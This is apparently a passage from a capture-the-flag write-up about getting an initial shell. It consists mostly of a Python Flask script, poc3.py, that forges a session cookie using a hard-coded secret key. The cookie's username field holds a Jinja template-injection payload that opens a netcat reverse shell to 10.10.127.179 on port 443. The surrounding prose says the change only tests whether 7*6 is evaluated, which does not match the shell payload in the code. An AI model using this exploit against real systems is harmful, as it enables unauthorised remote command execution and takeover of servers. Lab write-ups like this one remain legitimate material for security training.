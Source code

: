 <figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Inital Shell**

**Kali(poc-venv)**

```
subl poc3.py
```

Changing the code to see if it will evaluate 7\*6 in the username field

**poc3.py**

```
#!/usr/bin/python3
from flask import Flask, session, request
from waitress import serve
import requests, threading, time

#Flask Initialisation
app = Flask(__name__)
app.config["SECRET_KEY"] = "43961b349373988c271babcbb6e55347"

@app.route("/")
def main():
    session["auth"] = "True"
    session["username"] = """{{config.__class__.__init__.__globals__['os'].popen('mkfifo /tmp/ZTQ0Y; nc 10.10.127.179 443 0</tmp/ZTQ0Y | /bin/sh >/tmp/ZTQ0Y 2>&1; rm /tmp/ZTQ0Y').read()}}"""
    return "Check your cookies", 200

#Flask setup/start
thread = threading.Thread(target = lambda: serve(app, port=9000, host="127.0.0.1"))
thread.setDaemon(True)
thread.start()

```